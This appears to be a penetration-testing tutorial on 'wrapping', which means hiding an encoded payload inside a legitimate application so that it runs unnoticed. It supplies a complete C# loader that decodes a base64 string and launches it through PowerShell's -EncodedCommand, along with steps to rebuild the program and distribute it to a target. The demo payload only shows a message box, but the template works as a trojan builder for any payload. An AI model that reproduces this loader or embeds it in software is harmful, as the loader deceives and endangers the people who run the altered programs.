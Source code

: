# Summary
Wrapping is a technique used in penetration testing to encapsulate malicious code within a legitimate application or script. This technique allows the malicious payload to be executed within the context of a legitimate process, making it harder to detect by security mechanisms.

Here's an overview of how you could perform wrapping to inject your payload into a legitimate application:

1. **Prepare the Payload:** Encode your payload (e.g., shellcode) that you want to execute within the target application.
2. **Identify the Wrapping Point:** Determine the best location within the legitimate application to insert the payload. This could be at the entry point or within a specific function.
3. **Modify the Application:** Alter the application to include the payload and ensure it will be executed.
4. **Repackage the Application:** Compile or assemble the modified application into a distributable format.
5. **Deploy the Wrapped Application:** Distribute the modified application to the target environment.

# Execution
To execute the wrapping technique provided, follow these steps:

1. **Compile the Original Application:** If modifying source code, compile the legitimate application to verify it functions correctly before alteration.    
2. **Insert the Payload:** Encode your payload in a suitable format (e.g., base64) and insert it into the application at the identified wrapping point.    
3. **Recompile or Repackage:** Recompile the modified application or repackage it if it's a script.    
4. **Deploy and Execute:** Distribute and run the wrapped application in the target environment, ensuring the payload executes as intended.    

#### Step 1: Prepare the Payload
Assume you have some shellcode (e.g., PowerShell script converted to shellcode):

1. **Encode the Shellcode:** Convert your shellcode to a base64 string.

```
# Example PowerShell script
$script = @"
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('Hello, World!')
"@

# Convert to base64
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$base64Payload = [System.Convert]::ToBase64String($bytes)
$base64Payload
```

2. **Replace Placeholder in Code:** Replace BASE64_ENCODED_PAYLOAD_HERE in the application code with the base64 string obtained from the above step.

#### Step 2: Insert the Payload
Using a legitimate application, identify a suitable location to insert the payload. For this example, we will use a simple C# console application.

##### Original Code (Program.cs)

```
using System;

class Program
{
    static void Main(string[] args)
    {
        Console.WriteLine("This is a legitimate application.");
    }
}
```

##### Modified Code (Program.cs) with Payload

```
using System;

class Program
{
    static void Main(string[] args)
    {
        // Base64 encoded payload
        string base64Payload = "BASE64_ENCODED_PAYLOAD_HERE";
        byte[] payload = Convert.FromBase64String(base64Payload);
        ExecutePayload(payload);

        Console.WriteLine("This is a legitimate application.");
    }

    static void ExecutePayload(byte[] payload)
    {
        // Decode and execute the payload
        string script = System.Text.Encoding.Unicode.GetString(payload);
        var psi = new System.Diagnostics.ProcessStartInfo("powershell.exe");
        psi.Arguments = "-EncodedCommand " + Convert.ToBase64String(System.Text.Encoding.Unicode.GetBytes(script));
        System.Diagnostics.Process.Start(psi);
    }
}
```

#### Step 3: Recompile the Application

Using the .NET CLI:

1. **Navigate to the Project Directory:**

```
cd path\to\LegitimateApplication
```

2. **Compile the Project:**

```
dotnet build -c Release
```

The compiled executable will be in the `bin/Release/net5.0/` or `bin/Release/net6.0/` directory, depending on your .NET version.

#### Step 4: Deploy and Execute

1. **Distribute the Application:** Provide the modified executable to the target environment.

2. **Run the Application:** Execute the wrapped application.

```
LegitimateApplication.exe
```

This should execute the payload (in this example, a PowerShell script showing a message box) along with the legitimate functionality of the application.

# Example Execution
Below is a simplified walkthrough:

#### Step 1: Prepare the payload in PowerShell:

```
$script = @"
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show('Hello, World!')
"@
$bytes = [System.Text.Encoding]::Unicode.GetBytes($script)
$base64Payload = [System.Convert]::ToBase64String($bytes)
$base64Payload
```

#### Step 2: Insert the payload into the application code:

Replace:

```
string base64Payload = "BASE64_ENCODED_PAYLOAD_HERE";
```

With:

```
string base64Payload = "encoded_payload_from_step_1";
```

#### Step 3: Compile the code:

- Save the modified C# code in Program.cs.
- Open a terminal or command prompt.
- Navigate to the directory containing Program.cs.
- Compile the code using:

```
dotnet build -c Release
```

#### Step 4: Run the executable:

- Open Command Prompt with administrator rights if required.
- Navigate to the directory containing the compiled executable.
- Run the executable:

```
LegitimateApplication.exe
```

This should execute the payload within the context of the wrapped application.

# Example Code

Here's a conceptual example in C# for a wrapped application:

```
using System;

class Program
{
    static void Main(string[] args)
    {
        // Base64 encoded payload
        string base64Payload = "BASE64_ENCODED_PAYLOAD_HERE";
        byte[] payload = Convert.FromBase64String(base64Payload);
        ExecutePayload(payload);

        Console.WriteLine("This is a legitimate application.");
    }

    static void ExecutePayload(byte[] payload)
    {
        // Decode and execute the payload
        string script = System.Text.Encoding.Unicode.GetString(payload);
        var psi = new System.Diagnostics.ProcessStartInfo("powershell.exe");
        psi.Arguments = "-EncodedCommand " + Convert.ToBase64String(System.Text.Encoding.Unicode.GetBytes(script));
        System.Diagnostics.Process.Start(psi);
    }
}
```

Replace "BASE64_ENCODED_PAYLOAD_HERE" with your base64-encoded payload.